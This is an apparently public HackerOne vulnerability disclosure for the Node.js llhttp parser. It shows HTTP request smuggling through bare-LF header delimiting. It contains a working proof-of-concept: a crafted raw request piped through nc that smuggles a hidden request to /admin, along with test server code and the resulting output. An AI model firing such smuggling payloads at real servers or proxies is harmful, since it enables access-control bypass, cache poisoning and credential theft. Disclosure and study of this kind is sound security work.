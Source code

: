 # HTTP Request Smuggling Due To Improper Delimiting of Header Fields

## Report Details
- **Report ID**: 1524692
- **URL**: https://hackerone.com/reports/1524692
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-03-28T16:07:45.081Z
- **Disclosed**: 2022-07-07T17:26:47.529Z

## Reporter
- **Username**: zeyu2001
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:**

The `llhttp` parser in the `http` module in Node v17.8.0 does not strictly use the CRLF sequence to delimit HTTP requests. This can lead to HTTP Request Smuggling (HRS).

**Description:**

The LF character (without CR) is sufficient to delimit HTTP header fields in the `lihttp` parser. According to [RFC7230 section 3](https://datatracker.ietf.org/doc/html/rfc7230#section-3), only the CRLF sequence should delimit each `header-field`.

Consider the following request (all lines are delimited by CRLF except the `[\n]` part)

```http
GET / HTTP/1.1
Host: localhost
Dummy: x[\n]Content-Length: 23

GET / HTTP/1.1
Dummy: GET /admin HTTP/1.1
Host: localhost

```

Suppose that an upstream server:
- Correctly delimits lines by the CRLF sequence instead of only LF
- Incorrectly allows the LF character in header values

This leads to HTTP request smuggling as the Node server sees one extra header field, `Content-Length: 23` while the upstream proxy thinks that the content length of the first request is 0.

Request as seen by the Node server:

```http
GET / HTTP/1.1
Host: localhost
Dummy: x
Content-Length: 23

GET / HTTP/1.1
Dummy: GET /admin HTTP/1.1
Host: localhost

```

## Steps To Reproduce:

Server code I used for testing:

```javascript
const http = require('http');

http.createServer((request, response) => {
   let body = [];
   request.on('error', (err) => {
      response.end("error while reading body: " + err)
   }).on('data', (chunk) => {
      body.push(chunk);
   }).on('end', () => {
   body = Buffer.concat(body).toString();
   
   response.on('error', (err) => {
      response.end("error while sending response: " + err)
   });

   response.end(JSON.stringify({
         "URL": request.url,
         "Headers": request.headers,
         "Length": body.length,
         "Body": body,
      }) + "\n");
   });
}).listen(80);
```

Payload:

```bash
(printf "GET / HTTP/1.1\r\n"\
"Host: localhost\r\n"\
"Dummy: x\nContent-Length: 23\r\n"\
"\r\n"\
"GET / HTTP/1.1\r\n"\
"Dummy: GET /admin HTTP/1.1\r\n"\
"Host: localhost\r\n"\
"\r\n"\
"\r\n") | nc localhost 80
```

**Expected result:** Sees two requests, both to `/`.

**Actual result:** Sees one request to `/` and another to `/admin`.

```http
HTTP/1.1 200 OK
Date: Mon, 28 Mar 2022 15:51:44 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 124

{"URL":"/","Headers":{"host":"localhost","dummy":"x","content-length":"23"},"Length":23,"Body":"GET / HTTP/1.1\r\nDummy: "}
HTTP/1.1 200 OK
Date: Mon, 28 Mar 2022 15:51:44 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 69

{"URL":"/admin","Headers":{"host":"localhost"},"Length":0,"Body":""}
```

## Impact

Depending on the specific web application, HRS can lead to cache poisoning, bypassing of security layers, stealing of credentials and so on.

## Attachments
No attachments
